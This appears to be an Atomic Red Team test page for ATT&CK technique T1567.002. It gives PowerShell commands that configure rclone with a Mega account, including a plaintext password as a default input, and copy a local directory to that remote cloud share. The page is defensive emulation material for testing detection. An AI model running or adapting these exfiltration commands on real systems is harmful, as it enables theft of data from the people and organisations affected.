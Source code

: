 # T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/002)
<blockquote>Adversaries may exfiltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.

Examples of cloud storage services include Dropbox and Google Docs. Exfiltration to these cloud storage services can provide a significant amount of cover to the adversary if hosts within the network are already communicating with the service. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)](#atomic-test-1---exfiltrate-data-with-rclone-to-cloud-storage---mega-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)
This test uses rclone to exfiltrate data to a remote cloud storage instance. (Mega)
See https://thedfirreport.com/2022/06/16/sans-ransomware-summit-2022-can-you-detect-this/

**Supported Platforms:** Windows


**auto_generated_guid:** 8529ee44-279a-4a19-80bf-b846a40dda58





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rclone_path | Directory of rclone.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002&#92;rclone-v*&#92;|
| rclone_config_path | Path to rclone's config file (default should be fine) | path | $env:appdata|
| dir_to_copy | Directory to copy | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002|
| mega_user_account | Mega user account | string | atomictesting@outlook.com|
| mega_user_password | Mega user password | string | vmcjt1A_LEMKEXXy0CKFoiFCEztpFLcZVNinHA|
| remote_share | Remote Mega share | string | T1567002|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item #{rclone_config_path}\rclone -ItemType directory
New-Item #{rclone_config_path}\rclone\rclone.conf
cd "#{rclone_path}"
.\rclone.exe config create #{remote_share} mega
set-Content #{rclone_config_path}\rclone\rclone.conf "[#{remote_share}] `n type = mega `n user = #{mega_user_account} `n pass = #{mega_user_password}"
.\rclone.exe copy --max-size 1700k "#{dir_to_copy}" #{remote_share}:test -v
```

#### Cleanup Commands:
```powershell
cd "#{rclone_path}"
.\rclone.exe purge #{remote_share}:test
.\rclone.exe config delete #{remote_share}:
Remove-Item #{rclone_config_path}\rclone -recurse -force -erroraction silentlycontinue
cd c:\
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\T1567.002" -recurse -force
```



#### Dependencies:  Run with `powershell`!
##### Description: rclone must exist at (#{rclone_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{rclone_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip"
Expand-archive -path "PathToAtomicsFolder\..\ExternalPayloads\rclone.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\T1567.002\" -force
```




<br/>
